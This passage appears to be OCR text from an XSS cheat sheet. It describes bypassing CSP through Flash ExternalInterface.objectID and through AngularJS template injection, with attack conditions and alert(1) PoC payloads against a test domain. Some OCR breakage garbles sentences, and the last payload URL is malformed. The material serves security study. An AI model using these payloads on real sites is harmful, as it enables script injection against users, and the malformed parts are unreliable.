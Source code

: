 Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. There is Flash being passed to `ExternalInterface.objectID`the same origin`ExternalInterface.call()`
3. Flash can be used in the target environment

supplement:

`ExternalInterface.objectID`is a property in which the value of the name attribute of the tag used for embedding is set, and although it cannot be XSSed by itself, it can be used only for bypassing. It can also `Content-Security-Policy: default-src 'self'`be used to bypass CSP when there are restrictions on CSP such as.

PoCs:

https://vulnerabledoma.in/bypass/text?csp=self&q=%3Cembed%20name=%27alert(1)-%27%20allowscriptaccess=always%20src=//vulnerabledoma.in/bypass/wp-includes/js/ mediaelement/flashmediaelement.swf%3E

```html
<embed name='alert(1)-' allowscriptaccess=always src=//vulnerabledoma.in/bypass/wp-includes/js/mediaelement/flashmediaelement.swf>
```

ActionScript:

```actionscript
ExternalInterface.call(ExternalInterface.objectID + '_init');
```

#### Using Angular

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. A page on the same origin that hosts Angular or loads Angular from a CORS-enabled CDN

supplement:

Angular will try to expand the template enclosed in {{}} inside the tag with the attribute ng-app. Templates can run scripts.

Reference URL:

- https://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html

PoCs:

https://vulnerabledoma.in/bypass/text?q=%3Cscript%20src=%22/js/angular1.6.4.min.js%22%3E%3C/script%3E%3Cp%20ng-app%3E{ {constructor.constructor(%27alert(1)%27)()}}

```html
<script src="/js/angular1.6.4.min.js"></script><p ng-app>{{constructor.constructor('alert(1)')()}}
```

If you have a page on the same origin that loads Angular from a CORS-enabled CDN, you can load resources from external origins by indirectly loading them from HTML Imports.

(Chrome only) 

https://vulnerabledoma.in/bypass/text?q=%3Clink%20rel=import%20href=angular.html%3E%3Cp%20ng-app%3E{{constructor.constructor(%27alert(1 ) )%27)()}}
